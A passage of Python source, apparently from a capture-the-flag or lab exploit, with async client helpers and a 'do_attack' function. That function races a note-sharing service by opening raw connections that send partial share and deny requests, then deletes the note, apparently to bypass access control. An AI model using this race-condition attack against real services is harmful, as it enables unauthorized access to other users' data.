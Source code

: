 ```python
        return note_title
    
    async def note_destroy(self: Self, title: str) -> None:
        async with aiohttp.ClientSession() as session:
            request = session.post(
                self.url + f'/notes/{title}/destroy',
                json = {},
                headers = {TOKEN_HEADER_NAME: self.token},
            )

            async with request as response:
                await response.text()

    async def user_profile(self: Self, name: str) -> str:
        async with aiohttp.ClientSession() as session:
            request = session.get(
                self.url + f'/users/profile/{name}',
                json = {},
                headers = {TOKEN_HEADER_NAME: self.token},
            )

            async with request as response:
                return await response.text()


async def do_attack(
        wait: int, attacker: Client, viewer: Client, timeout: int,
) -> None:
    await asyncio.sleep(wait)

    note_title = await attacker.note_create()

    obj = {
        'viewer': viewer.username,
    }
    data = json.dumps(obj).encode()

    _, writer1 = await asyncio.open_connection(IP, PORT)

    writer1.write(f'POST /notes/{note_title}/share HTTP/1.1\r\n'.encode())
    writer1.write(f'Host: {IP}:{PORT}\r\n'.encode())
    writer1.write(f'{TOKEN_HEADER_NAME}: {attacker.token}\r\n'.encode())
    writer1.write(f'Content-Length: {len(data)}\r\n'.encode())
    writer1.write(b'Content-Type: application/json\r\n')
    writer1.write(b'\r\n')
    await writer1.drain()

    _, writer2 = await asyncio.open_connection(IP, PORT)

    writer2.write(f'POST /notes/{note_title}/deny HTTP/1.1\r\n'.encode())
    writer2.write(f'Host: {IP}:{PORT}\r\n'.encode())
    writer2.write(f'{TOKEN_HEADER_NAME}: {attacker.token}\r\n'.encode())
    writer2.write(f'Content-Length: {len(data)}\r\n'.encode())
    writer2.write(b'Content-Type: application/json\r\n')
    writer2.write(b'\r\n')
    await writer2.drain()

    # await asyncio.sleep(0.1)

    await attacker.note_destroy(note_title)

    await asyncio.sleep(timeout)

```